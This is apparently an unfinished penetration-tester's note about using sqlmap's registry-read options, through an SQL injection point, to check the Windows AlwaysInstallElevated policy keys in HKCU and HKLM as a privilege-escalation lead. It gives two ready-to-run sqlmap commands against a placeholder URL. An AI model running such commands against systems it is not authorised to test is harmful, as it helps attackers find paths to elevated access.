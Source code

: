 # Windows

Search Tag(s): #sqlmap #enumeration-and-discovery #privilege-escalation

## Enumerate

> [!IMPORTANT] Conditions
> Write the conditions...

TODO: Add for schedule task

Enumerate [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Registry/AlwaysInstallElevated/Manual/Living off the Land|AlwaysInstallElevated]] for privilege escalation.

```
$ sqlmap -u "<URL>" --random-agent --reg-read="HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"

$ sqlmap -u "<URL>" --random-agent --reg-read="HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"
```